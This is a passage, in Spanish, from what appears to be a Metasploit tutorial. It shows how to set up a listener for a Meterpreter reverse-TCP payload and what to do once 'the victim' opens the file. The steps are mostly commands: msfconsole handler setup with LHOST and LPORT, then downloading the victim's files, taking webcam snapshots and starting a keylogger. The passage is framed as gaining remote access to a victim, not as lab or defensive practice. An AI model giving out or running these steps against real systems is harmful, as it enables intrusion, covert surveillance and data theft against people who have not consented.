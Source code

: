 
### ✅ 8️⃣ **Ver todos los formatos disponibles**

```bash
msfvenom --help-formats
```

---

### ✅ 9️⃣ **¿Cómo recibir la conexión (listener)?**

1️⃣ Abre `msfconsole`

```bash
msfconsole
```

2️⃣ Usa el handler:

```bash
use exploit/multi/handler
```

3️⃣ Configura igual que el payload:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
run
```

✅ Cuando la víctima abra el archivo, te saldrá:

```
[*] Meterpreter session 1 opened
```

¡Y ya tienes acceso remoto!

---

### ✅ 10️ Interactuar con la sesión

```bash
sessions -i 1
```

Dentro de la sesión `meterpreter` puedes:

```bash
sysinfo           # ver info del sistema
getuid            # ver usuario actual
download archivo  # descargar archivo de víctima
webcam_snap       # tomar foto (si hay cámara)
keyscan_start     # iniciar keylogger
```

---
